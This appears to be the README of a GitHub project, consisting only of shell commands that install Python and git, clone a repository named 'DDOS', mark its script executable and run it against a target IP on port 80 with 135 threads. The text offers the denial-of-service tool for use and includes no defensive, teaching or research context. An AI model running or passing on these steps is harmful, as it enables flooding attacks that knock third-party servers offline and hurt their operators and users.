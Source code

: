 $apt update && apt upgrade 

$pkg install python

$pkg install python2

$pkg install git

$git clone https://github.com/MuhammadZalim97/DDOS

$cd DDOS

$chmod +x win.32.64.NT.py

$python3 win.32.64.NT.py -s ip target -p 80 -t 135
 
